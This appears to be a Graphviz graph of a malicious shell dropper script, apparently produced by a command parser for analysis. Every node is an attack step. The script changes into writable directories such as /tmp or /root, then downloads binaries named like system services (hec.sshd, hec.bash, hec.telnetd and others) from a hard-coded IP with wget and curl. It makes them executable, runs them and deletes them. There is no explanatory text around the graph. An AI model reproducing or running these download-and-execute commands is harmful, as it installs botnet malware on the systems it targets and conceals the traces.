 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://94.176.232.239/hec.ntpd "];
10 -> 12 [label=";,"];
12 [label="curl -O http://94.176.232.239/hec.ntpd "];
12 -> 14 [label=";,"];
14 [label="chmod +x hec.ntpd "];
14 -> 16 [label=";,"];
16 [label="./hec.ntpd "];
16 -> 18 [label=";,"];
18 [label="rm -rf hec.ntpd "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://94.176.232.239/hec.sshd "];
30 -> 32 [label=";,"];
32 [label="curl -O http://94.176.232.239/hec.sshd "];
32 -> 34 [label=";,"];
34 [label="chmod +x hec.sshd "];
34 -> 36 [label=";,"];
36 [label="./hec.sshd "];
36 -> 38 [label=";,"];
38 [label="rm -rf hec.sshd "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://94.176.232.239/hec.openssh "];
50 -> 52 [label=";,"];
52 [label="curl -O http://94.176.232.239/hec.openssh "];
52 -> 54 [label=";,"];
54 [label="chmod +x hec.openssh "];
54 -> 56 [label=";,"];
56 [label="./hec.openssh "];
56 -> 58 [label=";,"];
58 [label="rm -rf hec.openssh "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://94.176.232.239/hec.bash "];
70 -> 72 [label=";,"];
72 [label="curl -O http://94.176.232.239/hec.bash "];
72 -> 74 [label=";,"];
74 [label="chmod +x hec.bash "];
74 -> 76 [label=";,"];
76 [label="./hec.bash "];
76 -> 78 [label=";,"];
78 [label="rm -rf hec.bash "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://94.176.232.239/hec.tftp "];
90 -> 92 [label=";,"];
92 [label="curl -O http://94.176.232.239/hec.tftp "];
92 -> 94 [label=";,"];
94 [label="chmod +x hec.tftp "];
94 -> 96 [label=";,"];
96 [label="./hec.tftp "];
96 -> 98 [label=";,"];
98 [label="rm -rf hec.tftp "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://94.176.232.239/hec.wget "];
110 -> 112 [label=";,"];
112 [label="curl -O http://94.176.232.239/hec.wget "];
112 -> 114 [label=";,"];
114 [label="chmod +x hec.wget "];
114 -> 116 [label=";,"];
116 [label="./hec.wget "];
116 -> 118 [label=";,"];
118 [label="rm -rf hec.wget "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://94.176.232.239/hec.cron "];
130 -> 132 [label=";,"];
132 [label="curl -O http://94.176.232.239/hec.cron "];
132 -> 134 [label=";,"];
134 [label="chmod +x hec.cron "];
134 -> 136 [label=";,"];
136 [label="./hec.cron "];
136 -> 138 [label=";,"];
138 [label="rm -rf hec.cron "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://94.176.232.239/hec.ftp "];
150 -> 152 [label=";,"];
152 [label="curl -O http://94.176.232.239/hec.ftp "];
152 -> 154 [label=";,"];
154 [label="chmod +x hec.ftp "];
154 -> 156 [label=";,"];
156 [label="./hec.ftp "];
156 -> 158 [label=";,"];
158 [label="rm -rf hec.ftp "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://94.176.232.239/hec.pftp "];
170 -> 172 [label=";,"];
172 [label="curl -O http://94.176.232.239/hec.pftp "];
172 -> 174 [label=";,"];
174 [label="chmod +x hec.pftp "];
174 -> 176 [label=";,"];
176 [label="./hec.pftp "];
176 -> 178 [label=";,"];
178 [label="rm -rf hec.pftp "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://94.176.232.239/hec.sh "];
190 -> 192 [label=";,"];
192 [label="curl -O http://94.176.232.239/hec.sh "];
192 -> 194 [label=";,"];
194 [label="chmod +x hec.sh "];
194 -> 196 [label=";,"];
196 [label="./hec.sh "];
196 -> 198 [label=";,"];
198 [label="rm -rf hec.sh "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://94.176.232.239/hec.nut "];
210 -> 212 [label=";,"];
212 [label="curl -O http://94.176.232.239/hec.nut "];
212 -> 214 [label=";,"];
214 [label="chmod +x hec.nut "];
214 -> 216 [label=";,"];
216 [label="./hec.nut "];
216 -> 218 [label=";,"];
218 [label="rm -rf hec.nut "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://94.176.232.239/hec.apache2 "];
230 -> 232 [label=";,"];
232 [label="curl -O http://94.176.232.239/hec.apache2 "];
232 -> 234 [label=";,"];
234 [label="chmod +x hec.apache2 "];
234 -> 236 [label=";,"];
236 [label="./hec.apache2 "];
236 -> 238 [label=";,"];
238 [label="rm -rf hec.apache2 "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://94.176.232.239/hec.telnetd "];
250 -> 252 [label=";,"];
252 [label="curl -O http://94.176.232.239/hec.telnetd "];
252 -> 254 [label=";,"];
254 [label="chmod +x hec.telnetd "];
254 -> 256 [label=";,"];
256 [label="./hec.telnetd "];
256 -> 257 [label=";,"];
}
